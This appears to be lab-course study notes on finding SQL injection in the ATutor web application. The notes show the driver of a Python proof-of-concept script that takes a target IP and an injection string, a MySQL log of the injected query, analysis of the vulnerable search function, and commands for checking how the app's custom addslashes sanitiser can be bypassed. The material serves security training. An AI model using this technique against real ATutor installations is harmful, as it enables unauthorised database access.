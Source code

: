 ```bash

def main():
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <injection_string>" % sys.argv[0]
        print '(+) eg: %s 192.168.121.103 "aaaa\'" '  % sys.argv[0]
        sys.exit(-1)

    ip                  = sys.argv[1]
    injection_string    = sys.argv[2]

    searchFriends_sqli(ip, injection_string)

if __name__ == "__main__":
    main()
```

- We can tail the mysql log file to get the query that was sent

```bash
776 Query	SELECT * FROM AT_members M WHERE (first_name LIKE '%AAAA'%'  OR second_name LIKE '%AAAA'%'  OR last_name LIKE '%AAAA'%'  OR login LIKE '%AAAA'%'  )
```

- After which, we send 2 single quotes and are able to close the SQL query with no errors in the response and the MySQL log file

## Discovering SQLi

- Cannot just use a UNION-based SQLi since the results of the vulnerable query are not displayed to the user.
- Output of the query are passed to the `printSocialName` function, and then uses PHP echo to return the `member_id` back to the user. `printSocialName` will pass the `member_id` to `get_display_name`, which prepares and executes the final query using the `$member_id` parameter.

# Sanitation Bypass

- This application is using a function named `$addslashes` rather than the PHP native `addslashes` function.

```bash
egrep '\$addslashes.*=.*' /var/www/html/ATutor -r --color
```

- The function is dependent on the `get_magic_quotes_gpc` function, and we can use a custom PHP script to dump the results of that function.

```bash
student@atutor:~$ cat /var/www/html/magic.php
<?php
var_dump(get_magic_quotes_gpc());
?>

student@atutor:~$ curl http://localhost/magic.php
bool(false)
```
